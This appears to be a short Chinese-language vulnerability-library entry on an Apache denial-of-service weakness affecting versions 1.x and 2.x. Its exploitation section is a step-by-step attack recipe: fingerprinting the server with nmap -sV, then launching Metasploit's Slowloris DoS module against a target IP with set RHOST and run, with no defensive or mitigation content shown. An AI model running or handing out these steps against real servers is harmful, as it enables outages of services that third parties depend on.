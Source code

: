 ```yaml
---
title: 'Apache拒绝服务漏洞'
date: Mon, 21 Sep 2020 17:17:03 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞影响

Apache 1.x/2.x

### 漏洞利用

nmap使用-sV扫描服务器获取服务版本 msf利用步骤如下```
1.msfconsole(启动metasploit)

2.use auxiliary/dos/http/slowloris(使用模块)

3.set RHOST targetip(设置目标IP)

4.run(执行攻击) 
